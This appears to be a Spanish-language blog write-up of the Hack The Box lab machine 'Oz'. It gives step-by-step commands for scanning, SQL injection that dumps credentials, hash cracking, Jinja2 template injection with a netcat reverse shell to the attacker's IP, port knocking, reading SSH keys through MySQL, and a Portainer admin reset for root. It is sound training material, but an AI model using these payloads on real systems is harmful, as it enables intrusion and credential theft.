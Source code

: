 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Oz                 |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.96        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Oz/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.96
```

![nmap 1](/assets/images/Oz/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.96 -oG allPorts
```

![nmap2](/assets/images/Oz/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80,8080 10.10.10.96 -oN targeted
```

![nmap3](/assets/images/Oz/nmap3.png)

Continuemos enumerando informacion de los sitios con whatweb. A simple viste la pagina en puerto 80 pide la autenticacion de un usuario y la de puerto 8080 te hace el login.

![whatweb](/assets/images/Oz/whatweb.png)

Vamos ahora a aplicar Fuzzing sobre la aplicacion de API.

```s
wfuzz -c -t 200 --hw=1,4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.96/FUZZ
```

Vemos que en la ruta /users la comilla simple genera un error, por lo que podria significar que se puede aplicar un sqli.

![SQLI](/assets/images/Oz/sqli1.png)

Metemos el tipico or 1=1 -- - y si nos devuelve hasta un usuario. Ahora para poder enumerar mas usuarios podemos meter un or 1=1 limit 1,1. Podemos ahora insertar un usuario de la siguiente manera:

```sql
union select database() -- -
union select schema_name from information_schema.schemata limit 0,1; -- -
union select table_name from information_schema.tables where table_schema="ozdb" -- -
union select group_concat(column_name) from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" -- -
```

|   #   |     Database       |     
|:------|:-------------------|
| 0     | information_schema |
| 1     |    mysql           |
| 2     |    ozdb            | 
| 3     | performance_schema |

|   #   |     Tables ozdb    |     
|:------|:-------------------|
| 0     | tickets_gbw        |
| 1     |    users_gbw       |

|   #   |  Table users_gbw   |     
|:------|:-------------------|
| 0     |   id               |
| 1     |   username         |
| 2     |   password         |

Para iterar los usuarios

```bash
for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'or%201=1%20limit%20$i,1%20--%20-"; done | jq
```

![database name](/assets/images/Oz/database_name.png)

```s
curl -s -X GET "http://10.10.10.96/users/'union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq
```

Para crackear los hashes encontrados:

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
#Si tenemos tarjeta grafica
hashcat -m 10900 -a 0 rockyou.txt --user
#wizard.oz  wizardofoz22
```

Ahora podemos entrar al panel del puerto 8080 con la contrasena encontrada.

Abriremos burpsuite para empezar a hacer pruebas con este formulario tickets e intentar un SSTI.

![Burp 1](/assets/images/Oz/response_test.png)

Como vemos que la respuesta de nuestra prueba se refleja tal cual lo escribimos, es posible hacer un ssti, tambien sabemos que el motor que usa es flask de python y por lo tanto podremos enumerar posibles cosas.

De acuerdo con maquinas anteriores que habiamos hecho, podemos intentar pasarle a la peticion una prueba para que interprete. Para mas informacion, en el siguiente<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection"> link.</a>
```py
{{%7*7%}}
```
![Burp 2](/assets/images/Oz/burp2.png)

Ahora podemos intentar insertar comandos con un:
```py
{% raw %}
{{%% get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/fib_trie").read() %}}
```
Ahora que ya sabemos que usaurio somos, y somos root, procedimos a meter un ifconfig y como no vemos la ip de la maquina objetivo significa que estamos en un docker.

Podemos ver ahora los puertos expuestos realmente con un
```py
{% raw %}
{%{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/tcp").read() %}}
```
La respuesta de los puertos estara en hexadecimal y para verlos hacemos un:

```bash
echo "8C65
1F90
E412" | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
```

Ahora lo que intentaremos es inyectar un archivo malicioso con el script:
```py
{% raw %}
{{% ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %}} {{% config.from_pyfile('/tmp/evilconfig.cfg') %}} {{% config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.29 443 >/tmp/f',shell=True) %}}
```

Vemos que en la ruta /containers/database hay credenciales para quizas otro contenedor

![Database creds](/assets/images/Oz/database_creds.png)

Dentro de este contenedor, existe una ruta en el /.secret, dentro de este directorio vemos un archivo de configuracion del knock el cual sirve para establecer politicas. Hay una linea para abrir o cerrar el Openssh de acuerdo al portknocking, y para forzarlo haremos el siguiente comando:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh dorth@10.10.10.96
```

No funciono, asi que ahora podemos tambien listar las demas maquinas que tenemos enfrente con:

```s
for i in $(seq 1 254); do (ping -c 1 10.100.10.$i | grep "bytes from"&); done
```

Y para detectarles sus puertos, podemos lanzar un:

```s
for port in $(seq 1 65535); do (nc -nvz 10.100.10.4 $port); done
```

Como el unico puerto que tiene abierto es el de mysql, procedemos a conectarnos al servicio con las credenciales antes encontradas:

```s
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'show databases'
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'select load_file("/home/dorthi/.ssh/id_rsa")' | sed 's/\\n/\n/g'
```

Como tenemos ahora un id_rsa podemos volver a intentar ahora si

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96
```

Este id_rsa esta cifrado, asi que ahora para romper el cifrado podemos usar:

```s
ssh2john id_rsa > data
```

Ahora que tenemos un formato descifrable, usamos el siguiente comando, con las contrasenas encontradas para ver cual es la que sirve para esta clave:

```s
john --wordlist=pass data
#N0Pl4c3L1keH0me
```

Ahora tenemos acceso a la flag y para escalar privilegios, existe un contenedor que es para gestionar los contenedores en el puerto 9000, para usarlo solo usaremos:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96 -L 9000:172.17.0.2:9000
```

Ahora podemos visitar el portainer desde nuestro navegador con un localhost:9000, para esta version de portainer, la contrasena de admin se puede cambiar multiples veces con la siguiente peticion:

```s
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password": "rebick"}'
```

Ahora que tenemos acceso a esta interfaz, nos crearemos un contenedor con las siguientes caracteristicas para poder escribir sobre root.

![Container create](/assets/images/Oz/container_create.png)

Ahora solo tenemos que iniciar desde esta interfaz una shell con los privilegios que inicialmente nos da que son de root y dentro de rootfs tenemos el verdadero sistema operativo.

![root](/assets/images/Oz/root.png)

![Powned](/assets/images/Oz/powned.png)